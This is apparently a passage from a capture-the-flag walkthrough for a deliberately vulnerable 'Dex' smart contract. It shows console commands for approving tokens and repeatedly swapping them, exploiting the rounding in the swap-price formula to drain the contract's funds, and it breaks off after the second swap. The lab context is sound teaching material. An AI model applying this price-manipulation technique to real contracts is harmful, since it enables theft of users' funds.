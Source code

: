 To successfully exploit the challenge and drain all of the funds from the `Dex` contract, follow these steps:

1. Grant approval to the `Dex` contract, allowing it to use all of your tokens. Open the console and execute the following command:

```javascript
> await contract.approve(contract.address, 1000)
```

2. Understand the price calculation for each token swap. The price is determined by the following formula:

```solidity
function getSwapPrice(
    address from,
    address to,
    uint amount
) public view returns (uint) {
    return ((amount * IERC20(to).balanceOf(address(this))) /
        IERC20(from).balanceOf(address(this)));
}
```

3. Initially, both the `Dex` and the player have the following token amounts:

|          | Token1 | Token2 |
| :------: | :----: | :----: |
|  `Dex`   |  100   |  100   |
| `player` |   10   |   10   |

4. Obtain the addresses for `token1` and `token2` from the contract by executing the following commands:

```java
> const token1 = await contract.token1()
> const token2 = await contract.token2()
```

5. Begin the manipulation by swapping 10 tokens of `token1` with `token2` using the following command:

```javascript
> await contract.swap(token1, token2, 10)
```

After this swap, the updated token amounts are as follows:

|          | Token1 | Token2 |
| :------: | :----: | :----: |
|  `Dex`   |  110   |   90   |
| `player` |   0    |   20   |

5. Proceed with swapping 20 tokens of `token2` with `token1`:

```javascript
> await contract.swap(token2, token1, 20)
```

